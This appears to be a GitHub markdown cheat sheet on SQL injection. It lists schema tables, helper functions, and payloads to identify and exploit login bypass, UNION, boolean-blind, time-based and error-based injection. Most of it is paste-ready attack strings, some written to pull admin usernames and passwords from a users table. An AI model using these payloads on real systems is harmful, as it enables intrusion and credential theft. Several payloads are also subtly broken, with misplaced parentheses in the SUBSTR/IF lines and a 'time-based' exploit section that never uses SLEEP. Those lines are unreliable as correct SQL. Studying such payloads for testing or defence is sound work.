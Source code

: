 # Tips and Tricks

---
### Useful Tables

**MySQL, Postgres and MSSQL**

- INFORMATION_SCHEMA
    .schemata
    .tables
    .columns

**Extra: Postgress**
- pg_catalog
    .pg_tables
    .pg_catalog
---

### Usefull commands

```sql
ORDER BY <1-5...>
SELECT NULL, NULL...

CONCAT(column1, ":", column2)
GROUP_CONCAT(column SEPARATOR ";")  <- useful to blind sqli: data1;data2;data3
SUBSTR(data or (query), 1, 1)
SELECT SLEEP(5)

IF((Condition), <case_true>, <case_false>)
or
SELECT CASE WHEN (condigiton) THEN <case_true> ELSE <case_false> END
```

---


## Main kind of SQLi

- #### Broken Access Authentication
    *Abuse from SELECT logic, this kind of query generally utilize WHERE clause and Logic which can be modified to bypass the logins screens*

```mysql
' or '1'='1'-- -
1 or 1=1-- -
admin' and '1'='1 
...
```

---

- #### Union Attacks
    *On this context generally the data which is sended from backend is a index that will display some data correspondent, as a "SELECT" but with much more columns.... we can use some payloads to identify the quantity of columns that are selected and after this start to enumerate, because where the data selected should be, the new malicious query will return our data on this places*
    
```mysql
# Identifying

' ORDER BY <1-5...> 
' UNION SELECT NULL, NULL, NULL, ... 
```

```mysql
#Exploiting

' UNION SELECT NULL, c_password, NULL FROM tb_users WHERE c_username = 'admin'#
' UNION SELECT CONCAT(c_username, ':', c_password) FROM tb_users WHERE c_username = 'admin'-- -
```

---

- #### Blind SQL Injection With Conditional Responses
    *On this context we need to use conditions or as i like to say... yes or not questions based... such as... the first letter of data extracted is f? Using this logic and some select concatenations statements to make the query run.*

```mysql
#Identifiyng

data' AND SELECT IF((1=1), true, false)-- -
data' UNION SELECT IF((1=1), true, false)-- -
data' UNION SELECT IF((1=1), true, false) %23
```

```mysql
#Exploiting

' AND SELECT IF(SUBSTR((SELECT database(), 1, 1) = 'a'), true, false)-- -

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false) 

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false) %23
```

---

- #### Time-Based Blind SQL Injection With 
    *its a vulnerability that uses query time functions to spot the flaw the consequently remount across database*

```mysql
#Identifying

' OR SLEEP(5)
admin' and SLEEP(5)
```

```mysql
# Exploiting
' AND SELECT IF(SUBSTR((SELECT database(), 1, 1) = 'a'), true, false)-- -

xyz" AND SELECT IF(SUBSTR((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = database()), 1, 1) = 'a', true, false)-- -
```

---

- #### SQL Injection Error Based
    *Diferently the past vulnerabilities, this kind have a feedback or well saying a error message after the query try.*

```mysql
#Identifying
 ' 
 \
 ' union select 1, 2, 3... %23    
```

```mysql
#Exploiting 
 ' AND 1=CAST((SELECT 1) AS INT) %23
 ' AND 1=CAST((SELECT c_user FROM t_users) as INT)-- -
 ```
